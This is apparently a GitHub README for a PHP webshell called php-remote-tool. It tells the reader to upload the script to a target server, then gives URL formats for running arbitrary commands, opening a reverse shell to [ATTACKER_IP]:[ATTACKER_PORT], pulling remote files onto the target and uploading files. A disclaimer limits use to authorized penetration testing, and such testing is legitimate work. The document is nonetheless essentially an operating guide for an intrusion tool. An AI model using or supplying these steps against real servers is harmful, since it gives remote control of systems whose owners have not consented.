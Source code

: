 # PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

```
http://target.com/path/cmd.php?cmd=[COMMAND]

Replace [COMMAND] with the command you want to execute on the target system.
```
## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

```
Copy code

http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]

Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. Make sure to set up a listener on your system to receive the connection.
```
## Download a file
To download a file from a URL and save it on the target system, use the following URL format:

```

http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]

Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.
```
## Upload a file
To upload a file to the target system, use the following URL format:
```
http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]

Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".
```
## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
